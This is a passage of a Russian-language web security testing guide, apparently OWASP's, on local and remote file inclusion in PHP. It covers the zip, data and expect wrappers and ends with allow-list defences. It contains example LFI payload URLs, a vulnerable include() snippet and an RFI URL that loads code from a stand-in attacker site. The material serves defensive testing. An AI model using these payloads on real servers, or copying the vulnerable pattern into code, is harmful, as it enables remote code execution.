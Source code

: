 Поскольку в нашем примере расширение `.php` конкатенируется с нашей полезной нагрузкой, запрос `http://vulnerable_host/preview.php?file=zip://../avatar/target.jpg%23code` приведёт к выполнению `code.php`, хранящегося во вредоносном ZIP-архиве.

##### PHP Data

Эта обёртка, появившаяся в PHP 5.2.0, предполагает следующее использование: `data://text/plain;base64,BASE64_STR`, где `BASE64_STR`, как ожидается, будет содержимым обрабатываемого файла в кодировке Base64. Важно учитывать, что эта обёртка будет доступна только в том случае, если включена опция `allow_url_include`.

Чтобы протестировать LFI с использованием этой обёртки, код, который будет выполняться, должен быть закодирован в Base64. Например, `<?php phpinfo(); ?>` будет закодирован как: `PD9waHAgcGhwaW5mbygpOyA/Pg==`, а полезная нагрузка представлена в виде: `data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==`.

##### PHP Expect

Эта обёртка, которая не включена по умолчанию, даёт доступ к процессам `stdio`, `stdout` и `stderr`. Сервер выполнит предоставленную в формате `expect://command` команду с использованием `BASH` и вернёт результат.

### Тестирование включения удалённого файлов

Поскольку RFI возникает, когда URL, передаваемые операторам `include`, должным образом не нейтрализуются, при тестировании методом чёрного ящика нам следует искать скрипты, которые принимают имена файлов в качестве параметров. Рассмотрим следующий пример на PHP:

```php
$incfile = $_REQUEST["file"];
include($incfile.".php");
```

В данном примере путь извлекается из HTTP-запроса, а контроль ввода не проводится (например, посредством сверки введённых данных со списком разрешённых), поэтому этот фрагмент кода уязвим для такого типа атак. Рассмотрим следующий URL:

`http://vulnerable_host/vuln_page.php?file=http://attacker_site/malicous_page`

В этом случае будет включен удалённый файл, и любой код, содержащийся в нём, будет выполняться сервером.

## Меры защиты

Наиболее эффективным решением для устранения уязвимостей при включении файлов является отказ от передачи введённых пользователем данных в файловую систему/API/фреймворк. Если это невозможно, приложение может поддерживать список разрешённых файлов, которые могут включаться на странице, а также идентификатор (например, порядковый номер) для доступа к выбранному файлу. Любой запрос, содержащий недопустимый идентификатор, должен отклоняться, чтобы у злоумышленников не было возможности манипулировать этим путём.
Ознакомьтесь с [Памяткой по загрузке файлов](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html), чтобы узнать о рекомендациях по безопасности на эту тему.

## Инструменты

